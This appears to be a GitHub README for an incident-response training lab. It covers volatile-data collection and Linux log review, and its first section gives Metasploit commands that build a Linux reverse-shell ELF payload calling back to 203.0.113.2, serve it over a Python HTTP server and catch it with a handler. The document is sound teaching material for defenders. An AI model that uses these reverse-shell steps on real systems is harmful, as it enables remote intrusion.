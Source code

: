 # Incident Response Procedures

## Overview
This project simulates an incident response workflow by building malicious executables, collecting volatile data, and analyzing system logs. Tools like Metasploit and Linux commands are used to identify, mitigate, and document activities on compromised systems.

## Key Features
1. **Malicious Executable Creation**:
   - Use Metasploit to create a reverse shell payload for Linux systems.
   - Host the payload via an HTTP server for remote execution.
2. **Volatile Data Collection**:
   - Gather critical data (RAM, network stats, processes) before shutdown.
   - Save findings in a structured report for analysis.
3. **Log Analysis**:
   - Examine system logs (`auth.log`, `btmp`, `wtmp`) to identify unauthorized access or failed login attempts.

## Lab Steps
1. **Create a Malicious Payload**:
   - Build a reverse shell payload:
     ```bash
     msfconsole
     search linux/x64/shell_reverse_tcp
     use 0
     set LHOST 203.0.113.2
     generate -f elf -o linux
     ```
   - Host it via HTTP:
     ```bash
     python3 -m http.server
     ```
   - Start a Metasploit handler:
     ```bash
     use exploit/multi/handler
     set payload linux/x64/shell_reverse_tcp
     exploit
     ```

2. **Collect Volatile Data**:
   - Create a report and collect system data:
     ```bash
     echo sysadmin investigator > report.txt
     date >> report.txt
     uname -a >> report.txt
     hostname >> report.txt
     ifconfig -a >> report.txt
     netstat -ano >> report.txt
     ps -aux >> report.txt
     route -n >> report.txt
     date >> report.txt
     ```
   - View the report:
     ```bash
     cat report.txt | less
     ```

3. **Analyze Logs**:
   - Review logs for suspicious activity:
     ```bash
     cat /var/log/auth.log | less
     last -f /var/log/btmp | more
     last -f /var/log/wtmp | more
     ```

## Tools Used
- **Metasploit Framework**: For creating payloads and managing reverse connections.
- **Linux Commands**: For collecting volatile data and log analysis.
- **Python HTTP Server**: For hosting malicious executables.

## Learning Objectives
- Understand reverse shell creation and execution.
- Collect and document volatile data from compromised systems.
- Analyze system logs to identify unauthorized activities.

## Documentation
Refer to the [Incident Response Procedures Guide](https://github.com/StephVergil/Cybersecurity-Projects/blob/main/Incident%20Reponse%20Procedures.docx) for detailed instructions.
